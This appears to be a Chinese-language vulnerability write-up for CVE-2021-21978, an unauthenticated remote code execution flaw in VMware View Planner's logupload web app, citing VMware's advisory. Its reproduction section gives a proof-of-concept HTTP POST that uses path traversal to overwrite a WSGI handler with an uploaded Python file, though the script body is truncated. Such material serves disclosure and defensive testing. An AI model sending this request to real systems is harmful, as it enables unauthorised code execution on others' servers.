

# VMware View Planner 未授权RCE CVE-2021-21978

## 漏洞描述

输入验证不正确以及缺少授权会导致在logupload Web应用程序中上传任意文件。具有对View Planner Harness的网络访问权限未经授权的攻击者可以上传并执行特制文件，从而导致在logupload容器中远程执行代码。

参考链接：

- https://www.vmware.com/security/advisories/VMSA-2021-0003.html

## 漏洞复现

poc：

```
POST /logupload?logMetaData={"itrLogPath":"../../../../../../etc/httpd/html/wsgi_log_upload","logFileType":"log_upload_wsgi.py","workloadID":"2"}

Accept-Encoding:gzip,deflate
Content-Type:multipart/form-data;boundary=---WebKitFormBoundaryH8GoragzRFVTw1VD


------WebKitFormBoundaryH8GoragzRFVTw1VD
Content-Disposition:form-data;name="logfile";filename=""
Content-Type:text/plain

#! /usr/bin/env python3
import cgi
import os,sys
import logging
import jsom

....
```

